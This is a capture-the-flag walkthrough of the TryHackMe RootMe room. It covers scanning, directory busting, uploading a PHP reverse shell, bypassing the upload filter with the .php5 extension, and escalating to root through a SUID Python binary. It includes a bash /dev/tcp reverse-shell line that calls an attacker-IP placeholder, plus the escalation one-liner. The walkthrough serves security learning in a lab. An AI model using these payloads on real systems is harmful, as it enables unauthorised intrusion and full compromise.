 
# RootMe CTF Walkthrough – TryHackMe

## 🕵️ About the Room

The **RootMe CTF** on TryHackMe is an engaging challenge designed to teach beginners and intermediate users how to exploit common vulnerabilities in web applications and escalate privileges on Linux systems. It focuses on enumeration, file upload vulnerabilities, and privilege escalation techniques that mirror real-world penetration testing scenarios.

Throughout this room, I learned how to:

✔ Perform network scanning and service enumeration  
✔ Identify vulnerable web directories through directory busting  
✔ Exploit file upload restrictions by bypassing file extension filters  
✔ Use reverse shells to gain remote access  
✔ Enumerate files and permissions to find privilege escalation paths  
✔ Exploit SUID binaries using tools like gtfobins for privilege escalation  

This walkthrough documents the step-by-step process I followed to compromise the machine and retrieve both user and root flags.

---

## ✅ Steps Taken to Solve the RootMe CTF

### 1️⃣ Connecting to TryHackMe Network

The first step was to establish a connection with the TryHackMe environment using the OpenVPN configuration file:

\`\`\`bash
$ sudo openvpn Downloads/Ynos.ovpn
\`\`\`

This ensured secure access to the lab network.

---

### 2️⃣ Verifying Connectivity

Once connected, I confirmed that I could communicate with the target machine by sending ICMP packets using the ping command:

\`\`\`bash
$ ping (Ip of the machine)
\`\`\`

This verified that the target system was online and reachable.

---

### 3️⃣ Running Nmap Scan for Enumeration

I then began scanning the target machine to identify open ports and services using this command:

\`\`\`bash
$ nmap -sV -O -T5 -p- 10.10.109.68 -oN Nmap.results
\`\`\`

This scan identified:
- All ports (\`-p-\`)
- Service versions (\`-sV\`)
- Operating system details (\`-O\`)
- Aggressive timing template for speed (\`-T5\`)
- Output written to \`Nmap.results\`

---

### 4️⃣ Starting Directory Busting (Dirbusting)

While the Nmap scan was running, I began directory busting on the web server using a tool like `dirb` or `gobuster`. This revealed several directories and potential entry points:

```text
/css/  -> Contains upload functionality
```

This early enumeration set the stage for further exploitation.

---

### 5️⃣ Reviewing Open Ports

The Nmap scan results showed that **two ports were open**:
- SSH service for remote login
- Apache web server serving content

These services provided the main attack vectors.

---

### 6️⃣ Finding Upload Functionality in the Web Directory

The directory busting process uncovered that the `/css/` directory contained a file called `panel`, which could be used for uploading files to the server:

```text
/css/panel
```

This was a significant discovery because file uploads are often misconfigured and lead to remote code execution vulnerabilities.

---

### 7️⃣ Uploading a Reverse Shell

Knowing that the Apache server was running PHP, I used a PHP reverse shell from Pentest Monkey's repository to exploit the upload feature. This shell allows the attacker to connect back to the target machine:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'"); ?>
```

However, I discovered that uploading `.php` files was blocked by the server.

---

### 8️⃣ Bypassing File Upload Restrictions

To bypass the restriction, I renamed the file extension from `.php` to `.php5`, which is often parsed by PHP servers. This allowed me to upload the shell script successfully without being blocked by the file extension filter.

---

### 9️⃣ Setting Up a Listener for the Reverse Shell

On my attacking machine, I set up a netcat listener to catch the incoming connection once the uploaded file was triggered:

\`\`\`bash
$ nc -nvlp 4444
\`\`\`

After refreshing the web page that triggered the shell, I gained access to the target system.

---

### 🔟 Finding the User Flag

With initial access, the next goal was to locate the `user.txt` flag file, typically found in the home directory of the user with limited permissions.

---

### 1️⃣1️⃣ Enumerating for Privilege Escalation Paths

To prepare for privilege escalation, I searched for files with SUID permissions that could be exploited:

\`\`\`bash
$ find / -perm -4000 -type f 2>/dev/null
\`\`\`

This identified binaries that could be misused to escalate privileges.

---

### 1️⃣2️⃣ Exploiting Python for Privilege Escalation

The enumeration revealed that `/usr/bin/python` had elevated permissions. Using this information, I referred to **gtfobins**, a curated list of binaries that can be exploited for privilege escalation.

The exploit command was:

\`\`\`bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
\`\`\`

Running this command gave me an elevated shell with administrative privileges.

---

### 1️⃣3️⃣ Confirming Admin Access

After executing the exploit, I verified that I had root privileges by checking the current user or accessing restricted directories.

---

### 1️⃣4️⃣ Capturing the Root Flag

Finally, with full administrative access, I navigated to the root directory and retrieved the `root.txt` file:

```text
/root/root.txt
```

This marked the completion of the challenge.

---

## ✅ What I Learned

- How to connect securely to a lab environment using OpenVPN  
- How to verify connectivity using ping  
- How to scan a system using Nmap for open ports and services  
- How to perform directory busting to find hidden paths  
- How to exploit file upload functionality in web servers  
- How to bypass file extension restrictions to upload malicious scripts  
- How to use netcat as a listener for reverse shells  
- How to enumerate for SUID binaries to find privilege escalation paths  
- How to exploit Python’s permissions for administrative access using gtfobins  
- How to retrieve sensitive information like user and root flags  

---

## 📂 Conclusion

The **RootMe CTF** was a highly instructive challenge that covered multiple stages of exploitation, from enumeration to privilege escalation. It reinforced key penetration testing techniques while demonstrating how misconfigurations and improper input validation can lead to full system compromise.

This walkthrough reflects my hands-on experience and aims to help others understand how attackers approach web application vulnerabilities and system exploitation.

Happy hacking! 🚀🔐

